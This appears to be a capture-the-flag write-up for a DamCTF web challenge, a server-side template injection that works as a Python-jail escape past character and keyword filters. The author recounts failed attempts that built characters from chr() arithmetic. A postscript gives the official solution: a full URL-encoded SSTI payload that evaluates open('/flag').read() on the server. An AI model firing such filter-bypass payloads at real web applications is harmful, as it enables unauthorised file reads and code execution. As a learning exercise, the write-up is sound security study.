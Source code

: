 # web/super-secure-translation-implementation

Author: lyellread

Get creative and try to bypass the unhackable security measures that keep this site safe.

---

Name gave it away: SSTI

In essence, this is a pyjail challenge in the form of an SSTI vuln. Looking at the source, we are allowed to view other files in the same directory as app.py. To check which files we can view we need to use the Dockerfile provided. Thus, we can view filters.py and see that there are several string manipulation functions for us, as well as an eval().

I thought this would be an easy challenge, but it just shows how much I'm lacking in pyjail escapes.

First, I generated a list of printable ASCII chars using a script, and then pasted it into the payload to get all illegal chars. (At this point I hadn't realized I can simply read check.py for the allowed chars)

Then I copied the output of illegal chars and removed them from the list of ASCII chars in the script.

Now comes the escape portion. First I tried using b64d recursively to escape illegal characters, but it quickly became too long.

Then I realized that we're given chr(), and 1, 4, and 6. In my script, you can see my pathetic attempt to take advantage of this. I printed the ord of all illegal characters and manually decomposed them to math statements with 1, 4 and 6. After a painstaking hour or so, I was finally done with my first payload, and hoped for the best...

As expected it didn't work. After trying a few more payloads (most of them became too long for the limit of 161 chars) I finally gave up and went on to do other challs. The scripts and other stuff I suffered much to make can be found in this folder

---

ps. soln for this was [https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload=%7B%7B%28%27%28o%27%2B%28111%2B1%29%7Cch%2B%27e%27%2B%2866%2B44%29%7Cch%2B%27%28%22%27%2B%2844%2B1%2B1%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%29%7Cch%2B%27l%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%2B1%29%7Cch%2B%27%22%29%27%2B%2844%2B1%2B1%29%7Cch%2B%27re%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%27d%28%29%29%27%29%7Ce%7D%7D](https://super-secure-translation-implementation.chals.damctf.xyz/secure_translate/?payload=%7B%7B%28%27%28o%27%2B%28111%2B1%29%7Cch%2B%27e%27%2B%2866%2B44%29%7Cch%2B%27%28%22%27%2B%2844%2B1%2B1%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%29%7Cch%2B%27l%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%2866%2B16%2B16%2B4%2B1%29%7Cch%2B%27%22%29%27%2B%2844%2B1%2B1%29%7Cch%2B%27re%27%2B%2866%2B16%2B14%2B1%29%7Cch%2B%27d%28%29%29%27%29%7Ce%7D%7D), which evals to (open('/flag').read())... I never thought of using redundant parentheses to bypass the check for open :(
